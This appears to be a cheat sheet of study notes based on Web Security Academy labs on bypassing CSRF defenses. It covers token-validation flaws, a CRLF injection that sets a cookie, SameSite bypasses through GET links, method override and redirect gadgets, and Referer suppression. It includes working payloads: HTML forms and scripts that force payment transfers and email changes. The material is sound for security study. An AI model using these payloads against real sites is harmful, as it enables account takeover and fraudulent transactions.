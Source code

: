 

# Bypassing CSRF token validation

### Validation of CSRF token depends on request method

-try diffrent methods

### Validation of CSRF token depends on token being present

-remove paramter

### CSRF token is not tied to the user session

-obtain a token and use it

### CSRF token is tied to a non-session cookie

EX:
```
POST /email/change HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 68  
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv  
  
csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```


use crlf injection EX :

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```


### CSRF token is simply duplicated in a cookie

-some applications do not maintain any server-side record of tokens that have been issued

-the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie-but

-instead duplicate each token within a cookie and a request parameter.

EX:
```
POST /email/change HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 68  
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa  
  
csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```



# Bypassing SameSite cookie restrictions

### Bypassing SameSite Lax restrictions using GET requests

- craft get link
```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

- method override


for example Symfony supports the _method parameter 
```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```

### Bypassing SameSite restrictions using on-site gadgets (Strict , Lax )

- find a gadget that results in a secondary request within the same site

EX : DOM-based open redirection.

```html
<script>  
document.location =```https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?  
postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1```;  
</script>
```


### Bypassing SameSite restrictions via vulnerable sibling domains

-xss

-Cross-site WebSocket hijacking


# Bypassing Referer-based CSRF defenses

### Validation of Referer depends on header being present

 HTML page that hosts the CSRF attack contain:  
```html
<meta name="referrer" content="never">
```
